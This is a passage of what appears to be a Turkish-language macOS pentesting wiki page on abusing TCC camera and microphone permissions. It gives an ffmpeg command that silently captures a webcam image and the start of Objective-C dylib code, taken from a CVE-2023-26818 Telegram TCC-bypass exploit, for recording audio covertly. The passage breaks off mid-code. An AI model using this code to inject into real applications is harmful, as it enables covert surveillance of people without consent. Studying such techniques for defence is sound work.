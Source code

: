 {{#tab name="Shell"}}
Kamerayla fotoğraf çekin
```bash
ffmpeg -framerate 30 -f avfoundation -i "0" -frames:v 1 /tmp/capture.jpg
```
{{#endtab}}
{{#endtabs}}

### Mikrofon

- **Yetki**: **com.apple.security.device.audio-input**
- **TCC**: `kTCCServiceMicrophone`

{{#tabs}}
{{#tab name="ObjetiveC - Kaydet"}}
5 saniye ses kaydedin ve `/tmp/recording.m4a` içine kaydedin.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// Code from https://www.vicarius.io/vsociety/posts/cve-2023-26818-exploit-macos-tcc-bypass-w-telegram-part-1-2
// gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
self = [super init];
if (self) {
[self setupCaptureSession];
}
return self;
}

- (void)setupCaptureSession {
self.captureSession = [[AVCaptureSession alloc] init];
self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
NSError *error;
self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

if (error) {
NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
return;
}

if ([self.captureSession canAddInput:self.audioDeviceInput]) {
[self.captureSession addInput:self.audioDeviceInput];
}

self.audioFileOutput = [[AVCaptureMovieFileOutput alloc] init];

if ([self.captureSession canAddOutput:self.audioFileOutput]) {
```